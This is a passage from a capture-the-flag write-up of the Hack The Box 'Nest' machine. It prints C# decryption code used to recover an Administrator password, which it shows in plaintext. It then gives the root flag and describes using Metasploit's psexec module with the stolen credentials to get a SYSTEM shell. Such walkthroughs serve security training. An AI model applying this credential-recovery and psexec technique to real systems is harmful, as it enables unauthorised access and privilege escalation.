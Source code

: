 ```cs
    {
        byte[] bytes = Encoding.ASCII.GetBytes(initVector);
        byte[] bytes2 = Encoding.ASCII.GetBytes(saltValue);
        byte[] array = Convert.FromBase64String(cipherText);
        Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(passPhrase, bytes2, passwordIterations);
        checked
        {
            byte[] bytes3 = rfc2898DeriveBytes.GetBytes((int)Math.Round((double)keySize / 8.0));
            AesCryptoServiceProvider aesCryptoServiceProvider = new AesCryptoServiceProvider();
            aesCryptoServiceProvider.Mode = CipherMode.CBC;
            ICryptoTransform transform = aesCryptoServiceProvider.CreateDecryptor(bytes3, bytes);
            MemoryStream memoryStream = new MemoryStream(array);
            CryptoStream cryptoStream = new CryptoStream(memoryStream, transform, CryptoStreamMode.Read);
            byte[] array2 = new byte[array.Length + 1];
            int count = cryptoStream.Read(array2, 0, array2.Length);
            memoryStream.Close();
            cryptoStream.Close();
            return Encoding.ASCII.GetString(array2, 0, count);
        }
    }
}
```

After cleaning up the code a bit, I once again copied it over to .NET Fiddle, this time selecting C\# as the language.  

![](/assets/img/user_Administrator_C#_decrypt.png)

After clicking `> Run` the function provided me with the Administrator password `XtH4nkS4Pl4y1nGX`

### Root.txt

Once I had the Administrator password, it was simple to find the root flag.  It was in the `Administrator\Desktop\` folder in the `Users` share.

```text
zweilos@kalimaa:~/htb/nest$ cat 'Administrator\Desktop\root.txt' 
2f1fbb443419c664fff8b0f0424a3da1
```

### Getting a shell

After getting the root flag, I also went back to see if I could actually get a shell on the box to try to elevate to System privileges since this entire box had been completed in locked down quasi-shells the whole time.  I used the `psexec` module through Meterpreter with the Administrator credentials, and it returned a System shell right away.

```text
meterpreter > shell
Process 1732 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
